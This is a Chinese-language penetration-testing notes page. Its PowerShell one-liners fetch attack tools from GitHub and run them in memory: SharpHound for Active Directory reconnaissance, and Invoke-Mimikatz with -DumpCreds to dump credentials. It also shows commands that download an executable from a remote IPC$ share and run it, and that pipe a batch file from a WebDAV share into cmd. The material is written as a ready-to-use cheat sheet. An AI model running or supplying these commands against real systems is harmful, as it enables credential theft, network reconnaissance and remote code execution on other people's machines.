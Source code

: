 直接下载脚本信息并执行

```powershell
write-host "Remote download of SharpHound.ps1 into memory, followed by execution of the script" -ForegroundColor Cyan
IEX (New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/804503962b6dc554ad7d324cfa7f2b4a566a14e2/Ingestors/SharpHound.ps1');
Invoke-BloodHound -OutputDirectory $env:Temp
Start-Sleep 5
```



---

### 获取凭证

#### Mimikatz

```cmd
powershell.exe "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/f650520c4b1004daf8b3ec08007a0b945b91253a/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds"
```

![image-20231203201414385](http://cdn.ayusummer233.top/DailyNotes/202312032014427.png)

---

## 下载与执行文件

> [命令行终端下载指令大全 | DeepinWiki](https://wiki.deepin.org/zh/05_HOW-TO/07_系统技巧分享/命令行终端下载指令大全)

---

### 系统自带软件或工具

#### IPC$

IPC$ 是 Windows 操作系统中的一个共享资源，用于支持在网络上进行进程间通信（IPC）。这个共享资源通常位于每个文件共享服务器上，并且可以被网络上的任何用户访问。

利用 `IPC$下载文件`

```powershell
copy \\192.168.1.216\Shared\msedge.exe C:\temp\msedge.exe
C:\temp\msedge.exe

cmd.exe /k < \webdavserver\folder\batchfile.txt
```

![image-20240627103743936](http://cdn.ayusummer233.top/DailyNotes/202406271037457.png)

---

挂载共享文件的主机需要打开无密码保护的共享
